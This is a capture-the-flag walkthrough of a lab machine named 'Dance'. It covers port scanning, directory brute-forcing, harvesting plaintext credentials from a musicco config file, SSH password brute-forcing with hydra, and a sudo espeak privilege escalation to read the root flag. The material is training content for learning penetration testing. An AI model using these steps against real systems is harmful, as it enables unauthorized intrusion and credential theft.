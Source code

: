 ***Remote Target: `10.0.0.11`***  
***Local Machine: `10.0.0.27`***

# 1. Enumeration

    root@kali ~/D/M/Dance# nmap -sS -p- -A -T4 10.0.0.11

    21/tcp open  ftp     vsftpd 3.0.3
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.0.0.27
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 4
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 ff:f8:ef:1f:1b:a1:40:87:34:0c:3d:35:c7:29:b1:3d (RSA)
    |   256 08:f5:fd:33:51:89:82:29:74:2d:44:c8:54:e7:f1:16 (ECDSA)
    |_  256 53:c2:f0:6f:5d:2c:a1:da:7c:ad:c8:24:fd:85:d2:29 (ED25519)
    80/tcp open  http    nginx 1.18.0
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: nginx/1.18.0

After scanning the machine for open ports, we found that 3.  
Let's start by logging to FTP as the "***anonymous***" user without a password.

    root@kali ~/D/M/Dance [1]# ftp anonymous@10.0.0.11                                                         
    Connected to 10.0.0.11.                                                                                    
    220 (vsFTPd 3.0.3)
    331 Please specify the password.
    Password: 
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> 

There were not files to see as the "***anonymous***" user. Let's continue to HTTP.

    root@kali ~/D/M/Dance# gobuster dir -u http://10.0.0.11/ -w /usr/share/wordlists/dirb/common.txt           

    /index.html           (Status: 200) [Size: 121]
    /music                (Status: 301) [Size: 169] [--> http://10.0.0.11/music/]

Going to the "***/music***" directory, we can see it is running "***musicco***". Searching "***musicco***" for exploits and we find a [***directory traversal exploit***][1].

Following the instructions on the command, we are to download the contents of the music directory on the remote server.

    root@kali ~/D/M/Dance# unzip Efe.zip
    root@kali ~/D/M/Dance# ls -l music                                                                         
    total 320                                                                                                  
    drwxr-xr-x  2 root root   4096 Oct  7 10:05 app
    -rw-r--r--  1 root root    572 Sep  7  2021 config.php
    drwxr-xr-x  6 root root   4096 Oct  7 10:05 doc
    -rw-r--r--  1 root root   7406 Oct 28  2018 favicon.ico
    -rw-r--r--  1 root root 191644 Oct 28  2018 index.php
    drwxr-xr-x 14 root root   4096 Oct  7 10:05 lib
    -rw-r--r--  1 root root    872 Oct 28  2018 manifest.json
    drwxr-xr-x  2 root root   4096 Oct  7 10:05 music
    -rw-r--r--  1 root root   4466 Oct 28  2018 musicco.js
    -rw-r--r--  1 root root  73728 Oct  7 09:51 music.db
    -rw-r--r--  1 root root    158 Oct 28  2018 offline.html
    -rw-r--r--  1 root root   5320 Oct 28  2018 README.md
    drwxr-xr-x  2 root root   4096 Oct  7 10:05 temp
    drwxr-xr-x  3 root root   4096 Oct  7 10:05 theme

Let's see if the "***config.php***" file has any credentials we can use.

    root@kali ~/D/M/Dance# cat music/config.php                                                                
    <?php                                                                                                      
    $_CONFIG['saveConfig'] = '';
    $_CONFIG['users'] = array(
            array('admin', 'admin', 'true'),
            array('guest', 'guest', 'false'),
            array('aria', 'seraphim', 'false'),
            array('alice', 'rememberyou', 'false'),
            array('ava', 'password', 'false'),
            array('alba', 'thehostof', 'false'),
    );
    $_CONFIG['lang'] = 'en';
    $_CONFIG['musicRoot'] = 'music';
    $_CONFIG['coverFileName'] = 'folder';
    $_CONFIG['coverExtension'] = '.png';
    $_CONFIG['loadLyricsFromFile'] = 'on';
    $_CONFIG['downLoadMissingCovers'] = 'on';
    $_CONFIG['searchEngine'] = '';
    $_CONFIG['imageSearchEngine'] = '';
    ?>

# 2. Exploitation

By separating the the usernames and password we found on the config file we can try to brute force the login for the SSH service.

    root@kali ~/D/M/Dance# hydra -L usernames.txt -P password.txt ssh://10.0.0.11 -IV -t4
    [22][ssh] host: 10.0.0.11   login: aria   password: seraphim
    [22][ssh] host: 10.0.0.11   login: alba   password: thehostof

>

    root@kali ~/D/M/Dance# ssh alba@10.0.0.11                                                                  
    alba@10.0.0.11's password:                                                                                 
    Linux dance 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Fri Oct  7 10:09:43 2022 from 10.0.0.27
    This account is currently not available.
    Connection to 10.0.0.11 closed.

We are not able to login as the user "***alba***" so let's try the user aria.

    root@kali ~/D/M/Dance [1]# ssh aria@10.0.0.11                                                              
    aria@10.0.0.11's password:                                                                                 
    Linux dance 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64                                     
                                                                                                            
    The programs included with the Debian GNU/Linux system are free software;                                  
    the exact distribution terms for each program are described in the                                         
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Fri Oct  7 10:10:18 2022 from 10.0.0.27
    aria@dance:~$ id -a
    uid=1000(aria) gid=1000(aria) groups=1000(aria),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

    aria@dance:~$ cat user.txt
    godisadj
    aria@dance:~$ su -s /bin/bash alba
    Password: 
    alba@dance:~$ id -a
    uid=1001(alba) gid=1001(alba) groups=1001(alba)

Let's see what sudo permissions the user "***alba***" has.

    alba@dance:~$ sudo -ll
    Matching Defaults entries for alba on dance:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User alba may run the following commands on dance:

    Sudoers entry:
        RunAsUsers: root
        Options: !authenticate
        Commands:
            /usr/bin/espeak

<!--Didn't work!-->
Searching for "***espeak***" exploits, I found a this [***CVE***][2] that led to this [***github page***][3] that showed that passing env variables to the command can lead to arbitrary command execution. Which means we can exploit this to read the final flag on the "***/root***" directory.

<!--Different solution!--->
    alba@dance:~$ sudo -u root /usr/bin/espeak -f /root/root.txt -q -X
    deadcandance

[1]: "https://www.exploit-db.com/exploits/45830"
[2]: "https://www.cvedetails.com/cve/CVE-2016-10193/"
[3]: "https://github.com/dejan/espeak-ruby/issues/7"